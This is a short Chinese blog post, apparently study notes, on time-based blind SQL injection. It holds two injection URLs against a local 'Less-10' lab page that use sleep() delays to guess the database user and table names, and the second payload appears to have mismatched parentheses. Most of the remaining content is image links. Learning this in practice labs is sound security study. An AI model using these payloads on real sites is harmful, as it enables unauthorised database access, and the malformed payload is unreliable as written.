 ```yaml
---
layout: post
title: 1.3.2-SQL注入-SQL盲注-时间盲注
category: 
  - web安全
tags: 
  - sql注入 
  - sql盲注
abbrlink: 4135600167
date: 2018-06-23 00:00:00
description: more
---
```


## 时间盲注

### 时间盲注原理
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/02.png)



### 时间盲注方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/03.png)
	
	http://localhost:90/Less-10/?id=1" and if(left(user(),1)='a',0,sleep(3))--+

	http://localhost:90/Less-10/?id=1" and if(left(select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='r',0,sleep(3))--+

时间注入脚本  

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/06/05.png)

--- 
## links
[时间盲注](https://mp.weixin.qq.com/s?__biz=MzIzNzExNzI5Ng==&mid=2648732982&idx=1&sn=159f2b13d7737232577ae11ccecb33d2&chksm=f0d95f29c7aed63f2e0aea215f57672f7282de08c47a1033e6b2cfe1fee5fb788b4c8de405c0&mpshare=1&scene=23&srcid=0702v4QOmQfViIjUPqq98LAc)
